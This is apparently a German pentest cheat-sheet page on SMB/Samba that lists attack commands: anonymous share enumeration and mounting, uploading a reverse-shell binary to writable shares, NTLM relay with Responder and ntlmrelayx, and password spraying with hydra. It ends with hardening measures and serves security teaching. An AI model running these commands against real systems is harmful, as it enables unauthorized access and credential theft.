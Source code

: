 # SMB (Samba)

### **Einleitung**

Das **SMB-Protokoll** (Server Message Block) wird für Datei- und Druckfreigaben verwendet, insbesondere in Windows-Netzwerken (Samba unter Linux). Fehlkonfigurationen wie anonyme Freigaben oder schwache Berechtigungen erlauben oft unautorisierten Zugriff auf sensible Daten oder können für das Ablegen und Ausführen von schädlichem Code genutzt werden.

***

### **Typische Angriffspunkte**

#### **1. Auflistung verfügbarer Freigaben (enum)**

Ohne Authentifizierung:

```bash
smbclient -L //<target-ip> -N
```

Mit Authentifizierung:

```bash
smbclient -L //<target-ip> -U username
```

***

#### **2. Zugriff auf Freigaben**

Wenn eine Freigabe ohne Authentifizierung zugänglich ist (z. B. `anonymous`, `guest`, `Everyone`), kann sie direkt gemountet oder mit dem `smbclient` angesprochen werden:

```bash
smbclient //<target-ip>/sharename -N
```

Oder mounten (unter Linux):

```bash
sudo mount -t cifs //<target-ip>/sharename /mnt/smb -o guest
```

***

#### **3. Ablegen und Ausführen von Payloads**

Wenn Schreibzugriff besteht, kann ein Angreifer z. B. eine Reverse-Shell oder Backdoor auf dem System platzieren – besonders gefährlich bei ausführbaren Freigaben (z. B. `netlogon`, `scripts`, `public`).

```bash
put reverse.exe
```

***

#### **4. NTLM-Hash-Angriffe über SMB-Relay**

Angreifer können den SMB-Traffic manipulieren (z. B. mit Responder oder ntlmrelayx):

```bash
responder -I eth0
ntlmrelayx -t smb://<target> --no-smb-server
```

***

#### **5. Brute-Force / Password Spraying**

```bash
hydra -L users.txt -P passwords.txt smb://<target-ip>
```

***

### **Sicherheitsmaßnahmen**

* Deaktivieren anonymer oder Gast-Zugriffe
* Berechtigungen restriktiv setzen
* SMBv1 deaktivieren
* Logging aktivieren (z. B. `/var/log/samba/`)
* Netzwerksegmentierung & Firewall-Regeln
